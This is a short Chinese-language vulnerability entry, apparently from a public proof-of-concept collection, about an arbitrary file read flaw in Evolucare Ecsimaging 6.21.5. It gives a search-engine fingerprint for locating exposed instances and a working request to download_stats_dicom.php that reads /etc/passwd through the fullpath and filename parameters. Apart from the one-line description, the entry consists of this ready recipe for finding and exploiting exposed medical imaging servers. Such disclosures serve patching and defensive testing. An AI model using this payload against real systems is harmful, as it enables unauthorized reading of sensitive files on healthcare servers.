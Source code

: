 # Evolucare Ecsimaging download_stats_dicom.php 任意文件读取漏洞

## 漏洞描述

Evolucare Ecsimaging download_stats_dicom.php 存在文件读取漏洞,攻击者可利用该漏洞获取系统敏感信息等.

## 漏洞影响

```
EVOLUCARE Evolucare Ecsimaging 6.21.5
```

## 网络测绘

```
body="ECSimaging"
```

## 漏洞复现

登录页面

![](./images/202205241445840.png)

验证POC

```
/download_stats_dicom.php?fullpath=/etc/passwd&filename=/etc/passwd
```

![](./images/202205241445607.png)
